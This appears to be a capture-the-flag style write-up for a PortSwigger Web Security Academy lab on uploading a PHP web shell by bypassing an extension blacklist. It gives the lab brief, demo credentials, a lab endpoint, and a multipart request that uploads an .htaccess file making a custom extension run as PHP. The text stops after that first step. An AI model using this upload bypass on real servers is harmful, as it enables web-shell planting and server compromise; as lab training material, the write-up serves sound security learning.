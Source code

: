 # 1 - Web shell upload via extension blacklist bypass

This lab contains a vulnerable image upload function. Certain file extensions are blacklisted, but this defense can be bypassed due to a fundamental flaw in the configuration of this blacklist.

To solve the lab, upload a basic PHP web shell, then use it to exfiltrate the contents of the file /home/carlos/secret. Submit this secret using the button provided in the lab banner.

You can log in to your own account using the following credentials: wiener:peter


----------------------------------------------

Reference: https://portswigger.net/web-security/file-upload

----------------------------------------------

Generated endpoint: https://0a6000ce04de65cfc3e8c5ac00d700ed.web-security-academy.net

Update .htaccess:

```
-----------------------------230880832739977645353483474501
Content-Disposition: form-data; name="avatar"; filename=".htaccess"
Content-Type: application/octet-stream

AddType application/x-httpd-php .l33t

```

![img](images/1%20-%20Web%20shell%20upload%20via%20extension%20blacklist%20bypass/1.png)
